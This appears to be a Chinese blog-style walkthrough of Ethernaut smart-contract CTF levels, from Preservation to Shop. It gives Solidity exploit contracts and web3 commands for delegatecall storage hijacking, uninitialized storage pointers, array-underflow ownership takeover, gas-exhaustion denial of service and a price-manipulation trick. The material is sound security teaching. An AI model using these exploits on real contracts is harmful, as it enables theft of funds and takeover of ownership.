在上述代码中，如果调用a0函数，看起来是在a0中调用合约b中的b0将b1的值修改为了1111，实际上分别调用getA1和getB1可以发现，被赋值1111的是a1而不是b1。这正是delegatecall调用其他合约中函数的特性，代码是在a合约的环境中执行的，操作的也是a合约的 storage 。
引用大佬分析：
所以这个题就很好办了，我们调用
Preservation的setFirstTime函数时候实际通过 delegatecall 执行了LibraryContract的setTime函数，修改了timeZone1Library变量。
这样，我们第一次调用setFirstTime将timeZone1Library变量修改为我们的恶意合约的地址，第二次调用setFirstTime就可以执行我们的任意代码了。
Poc:
pragma solidity ^0.4.23;
contract PreservationPoc {
address public timeZone1Library;
address public timeZone2Library;
address public owner;
uint storedTime;
function setTime(uint _time) public {
owner = address(_time);
}
}
//修改为恶意合约地址
await contract.setFirstTime("0xBF85F10dADb216Ca5093dF8238dE314d9BB7d407")
//修改为自己的地址
await contract.setFirstTime("0x2eb4081c419d1890eb0af97ce5a9689cad2fe3da")
第一次调用setFirstTime是将恶意合约地址作为参数传给LiberayContract合约中setTime的参数，然后在setTime中将恶意合约地址赋给storedTime,由于delegatecall调用的特性，实际上恶意合约地址被赋给了timeZone1Library。然后第二次调用setFirstTime的时候，调用delegatecall的地址变成了恶意合约的地址，执行了恶意合约方法，将自己的地址赋值给了owner变量。
使用await contract.owner()查看合约拥有者，如果是自己地址，那么恭喜，你通关了。
大佬还有一句话：
函数中的局部变量默认为存储或内存，具体取决于其类型。未初始化的本地存储变量可以指向合约中的其他意外存储变量，从而导致故意（即开发人员故意将它们放在那里进行攻击）或无意的漏洞。
关键;
- delegatecall调用其他合约函数的特点
- uint类型可以存储地址
Locked
通关条件：
- 解锁registrar
照旧贴大佬分析：
为了讨论这个漏洞，首先我们需要了解存储（Storage）在 Solidity 中的工作方式。作为一个高度抽象的概述（没有任何适当的技术细节——我建议阅读 Solidity 文档以进行适当的审查），状态变量按它们出现在合约中的顺序存储在合约的 Slot 中（它们可以被组合在一起，但在本例中不可以，所以我们不用担心）。因此，
unlocked存在slot 0中，registeredNameRecord存在slot 1中，resolve在slot 2中，等等。这些 slot 的大小是 32 字节（映射会让事情更加复杂，但我们暂时忽略）。如果unlocked是false，其布尔值看起来会是0x000...0（64 个 0，不包括0x）；如果是true，则其布尔值会是0x000...1（63 个 0）。正如你所看到的，在这个特殊的例子中，存储上存在着很大的浪费。我们需要的另一部分知识，是 Solidity 会在将复杂的数据类型，比如
structs，初始化为局部变量时，默认使用 storage 来存储。因此，在 [16] 行中的newRecord默认为storage。合约的漏洞是由newRecord未初始化导致的。由于它默认为 storage，因此它成为指向 storage 的指针；并且由于它未初始化，它指向 slot 0（即unlocked的存储位置）。请注意，[17] 行和[18] 行中，我们将_name设为nameRecord.name、将_mappedAddress设为nameRecord.mappedAddress的操作，实际上改变了 slot 0 和 slot 1 的存储位置，也就是改变了unlocked和与registeredNameRecord相关联的 slot。这意味着我们可以通过
register()函数的bytes32 _name参数直接修改unlocked。因此，如果_name的最后一个字节为非零，它将修改 slot 0 的最后一个字节并直接将unlocked转为true。就在我们将unlocked设置为true之时，这样的_name值将传入 [23] 行的require()函数。在Remix中试试这个。注意如果你的_name使用下面形式，函数会通过：0x0000000000000000000000000000000000000000000000000000000000000001
Poc：
pragma solidity ^0.4.23;
// A Locked Name Registrar
contract Locked {
bool public unlocked = false; // registrar locked, no name updates
struct NameRecord { // map hashes to addresses
bytes32 name; //
address mappedAddress;
}
mapping(address => NameRecord) public registeredNameRecord; // records who registered names
mapping(bytes32 => address) public resolve; // resolves hashes to addresses
function register(bytes32 _name, address _mappedAddress) public {
// set up the new NameRecord
NameRecord newRecord;
newRecord.name = _name;
newRecord.mappedAddress = _mappedAddress;
resolve[_name] = _mappedAddress;
registeredNameRecord[msg.sender] = newRecord;
require(unlocked); // only allow registrations if contract is unlocked
}
}
contract LockedPoc {
function hack(address target) public {
Locked lock = Locked(target);
lock.register(bytes32(1),address(msg.sender));
}
}
struct 初始化为局部变量时，默认使用 storage 来存储，它成为指向 storage 的指针；并且由于它未初始化，它指向 slot 0（即 unlocked 的存储位置） 。在其他文章看到的都是结论很少有完全解释清楚原理的，留个疑问，看以后能不能解决吧。
关键：
- 存储在solidity的工作方式
Recovery
通关条件：
- 从丢失的合同中找回0.5 ether
由于区块链一切都是透明的，所以我们可以通过etherscan直接查询到丢失合约的地址。

箭头所指就是新建的token合约地址，通过Remix的At address功能，我们可以直接操作已部署在链上的合约。

通过destroy函数我们可以将合约自毁并将那0.5 ether取出。

可以看到调用destroy后，合约自毁，并将余额全部转入我的钱包了。
在Remix中还可以通过部署合约来调用destroy来转出余额，这样的方式相比使用At Address要略显麻烦一些，不过也是一种方式。
Poc：
pragma solidity ^0.4.23;
contract SimpleToken {
// public variables
string public name;
mapping (address => uint) public balances;
// collect ether in return for tokens
function() public payable ;
// allow transfers of tokens
function transfer(address _to, uint _amount) public ;
// clean up after ourselves
function destroy(address _to) public ;
}
contract RecoveryPoc {
SimpleToken target;
constructor(address _addr) public{
target = SimpleToken(_addr);
}
function attack() public{
target.destroy(tx.origin);
}
}
还有一种更加麻烦的方式是自己计算合约地址，可以看这篇文章——Ethernaut Lvl 18 Recovery Walkthrough: How to retrieve lost contract addresses (in 2 ways)。
public a = address（keccak256（0xd6,0x94，YOUR_ADDR，0x01））
通关后还给出了一篇文章介绍了一种隐秘且危险的方式存储ether： https://swende.se/blog/Ethereum_quirks_and_vulns.html
关键：
- 区块链上一切都是透明的
- 如何找回丢失的地址
- selfdestroy的使用
MagicNumber
通关条件：
- 使用正确的数字响应题目合约
先放大佬的Poc吧：
var bytecode = "0x600a600c600039600a6000f3602A60805260206080f3";
web3.eth.sendTransaction({ from: player, data: bytecode }, function(err,res){console.log(res)});
await contract.setSolver("contract address");
字节码的生成可以参考这篇文章：Ethernaut Lvl 19 MagicNumber Walkthrough: How to deploy contracts using raw assembly opcodes
生命的意义： https://baike.baidu.com/item/42/16630643?fr=aladdin
合约创建相关： https://www.jianshu.com/p/d9137e87c9d3
接下来回到这道题吧，题目要求使用正确的数字响应合约。由题目代码可以初步判断返回数字应该是42，这个42的由来可以看上面生命的意义的百科，还有个要求是代码最多10个操作码，这个时候使用remix来部署合约就有点不现实了。我们可以使用web3.eth提供的sendTransaction来部署合约，for example：
// using the callback
web3.eth.sendTransaction({
from: '0xde0B295669a9FD93d5F28D9Ec85E40f4cb697BAe',
data: code // deploying a contract
}, function(error, hash){
...
});
from的值在题目中可以由player代替，data的code需要看字节码生成那篇文章了，由于水平有限，我还不能理解T.T。不过有一点需要注意，那篇文章中所返回的是0x42并不是42，所以我们需要吧42修改为2A,即0x2A=42。
使用sendTransaction部署合约后，可以通过返回的交易哈希来获取合约地址，然后将contrant address替换为合约地址即可。
关键：
- 生命的意义
- 使用opcode创建合约
- web3.eth.sendTransaction的使用
- EVM汇编
Alien Codex
通关条件：
- 声明合约所有权
首先面对的问题是modifier contacted，所有函数都包含它，所以必须先是contact为true。
make_contact能够帮我们做到，唯一条件是传入一个长度大于2**200的数组，由于这里没有对数组内容进行检测，仅仅是检测了数组长度，所以我们可以伪造。
修改contactPoc：
sig = web3.sha3("make_contact(bytes32[])").slice(0,10)
// "0x1d3d4c0b"
// 函数选择器
data1 = "0000000000000000000000000000000000000000000000000000000000000020"
// 除去函数选择器，数组长度的存储从第 0x20 位开始
data2 = "1000000000000000000000000000000000000000000000000000000000000001"
// 数组的长度
await contract.contact()
// false
contract.sendTransaction({data: sig + data1 + data2});
// 发送交易
await contract.contact()
// true
solidity中计算存储位时使用公式为：
$$
keccak256(slot) + index
$$
之后就是一个经典的 OOB (out of boundary) Attack
首先通过调用
retract()，使得codex数组长度下溢。web3.eth.getStorageAt(contract.address, 1, function(x, y) {alert(y)}); // codex.length // 0x0000000000000000000000000000000000000000000000000000000000000000 contract.retract() // codex.length-- web3.eth.getStorageAt(contract.address, 1, function(x, y) {alert(y)}); // codex.length // 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff还需要了解一些 Solidity 中各种变量的存储方式。
这里推荐知道创宇的一篇文章：https://www.freebuf.com/articles/blockchain-articles/177260.html可以简单将动态数组内变量的存储位计算方法概括为：
b[X] == SLOAD(keccak256(slot) + X)在本题中，数组 codex 的 slot 为 1，同时也是存储数组长度的地方。
>>> import sha3 >>> import binascii >>> def bytes32(i): >>> return binascii.unhexlify('%064x'%i) >>> sha3.keccak_256(bytes32(1)).hexdigest() 'b10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6' >>> 2**256 - 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6 35707666377435648211887908874984608119992236509074197713628505308453184860938可计算出，
codex[35707666377435648211887908874984608119992236509074197713628505308453184860938]对应的存储位就是 slot 0。之前提到 slot 0 中同时存储了
contact和owner，只需将owner替换为 player 地址即可。await contract.owner() // "0x73048cec9010e92c298b016966bde1cc47299df5" contract.revise('35707666377435648211887908874984608119992236509074197713628505308453184860938','0x000000000000000000000001676ca875027fd9a5bdbd4f1f0380d8f34d8e1cdf') // 调用 revise() await contract.owner() // "0x676ca875027fd9a5bdbd4f1f0380d8f34d8e1cdf" // Submit instance
参考文档：
ethernaut 题目Alien Codex write up
Denial
通关条件：
- 在调用withdraw的时候，禁止owner分走账户的1%余额。
address.call.value(x)() 可以向合约发送更多的gas
assert(0==1) 触发异常之后会消耗所有可用的 gas
要使owner.transfer(amountToSend)执行失败，就需要使owner报错或者前面的语句将gas消耗完。很明显，在这里我们只能让前面的语句把gas消耗完来阻止owner提钱。
partner默认没有赋值，这正好给了我们利用途径。新建一个合约：
pragma solidity >=0.4.22 <0.6.0;
contract attack{
function() payable{
assert(0==1);
}
}
将partner赋值：
contract.setWithdrawPartner("0xD8Da635f4c5356942AbF3A1C67194E44C3F80a8f")
然后调用withdraw()：
contract.withdraw()
这里就要小小回顾下，要阻止转账的成功，这里提到的有两个方式：
- 在其调用转账代码之前将gas消耗完毕
- 转账目标主动抛出异常
关键：
- assert()失败耗费所有gas
Shop
404 Not found ╮(╯▽╰)╭我也想做，可是它是404啊！
11.22 更新！Ethernaut终于更新了！全（chuan）新版本——0.5.0现已上线。
通过条件：
- 最终价格低于叫价
简单分析一波：
contract Shop {
uint public price = 100;//初始价格
bool public isSold;
function buy() public {
Buyer _buyer = Buyer(msg.sender);
if (_buyer.price.gas(3000)() >= price && !isSold) {
//要满足这个条件，买家给出的价格要大于等于100，并且货物没有卖出
isSold = true;
price = _buyer.price.gas(3000)();
//将买家出的价格作为出售价格
}
}
}
问题很简单，只要使price() 两次返回不同的值即可，有很多方法可以办到，那么问题来了：应该根据什么判断应该返回哪个值呢。最开始我想的是设一个bool变量，在第一次被调用后修改该变量的值，第二次便可以返回不同的值：
//就像这样
bool public flag = false;
function price() external view returns (uint){
if (flag == true){
return 99;
}
return 102;
}
然而，编译都通不过！因为view这个修饰符的限定，我们不能修改状态，修改状态在官方文档中如是介绍：
View 函数
可以将函数声明为
view类型，这种情况下要保证不修改状态。下面的语句被认为是修改状态：
- 修改状态变量。
- 产生事件。
- 创建其它合约
- 使用
selfdestruct。- 通过调用发送以太币。
- 调用任何没有标记为
view或者pure的函数。- 使用低级调用。
- 使用包含特定操作码的内联汇编。
所以我们得另寻他法，回到题目合约中，我们可以发现在第一次调用price() 的前后，布尔型变量isSold的值发生了改变，那么我们是不是可以通过它来作为判断条件：
function price() external view returns (uint){
if (target.isSold() == true){
return 99;
}
return 102;
}
然而，编译是通过了，在调用函数的时候，Remix提示如下：
Gas estimation failed
Gas estimation errored with the following message (see below). The transaction execution will likely fail. Do you want to force sending?
gas required exceeds allowance (8000029) or always failing transaction
这段话大概的意思就是无法估计gas的消耗，搜索一通后还是没有解决这个问题。
后来在他人的帮助下才知道，不能使用变量作为判断条件，因为在执行判断之前还要去storage中访问target变量的值，这会消耗大量的gas，导致后面无法正常运行，从而失败。

通过etherscan上的追踪，我们可以看到，失败的原因就是这里，访问storage需要消耗800gas，而此时没有那么多gas了。
将target改为Shop(msg.sender) 就没有问题了，在if语句外面，我们已经使用了msg.sender，就不需要再次去访问storage，从而减少了gas的消耗。
function price() external view returns (uint){
if (Shop(msg.sender).isSold() == true){
return 99;
}
return 102;
}
}
完整Poc：
pragma solidity ^0.5.0;
contract Shop {
uint public price = 100;
bool public isSold;
function buy() public {
Buyer _buyer = Buyer(msg.sender);
if (_buyer.price.gas(3000)() >= price && !isSold) {
isSold = true;
price = _buyer.price.gas(3000)();
}
}
}
contract Buyer{
Shop target;
function attack(address _addr) public{
target = Shop(_addr);
target.buy();
}
function price() external view returns (uint){
if (Shop(msg.sender).isSold() == true){
return 99;
}
return 102;
}
}
price中的if语句还可以使用更加简单的方式写：
return Shop(msg.sender).isSold()?99:102;
关键：
- gas消耗的把握，访问storage会消耗大量的gas，如果gas有限，尽量避免访问storage
做(chao)了好久好久好久，终于搞定了~~~~~~~
完结撒花★,°:.☆(￣▽￣)/$:.°★ 。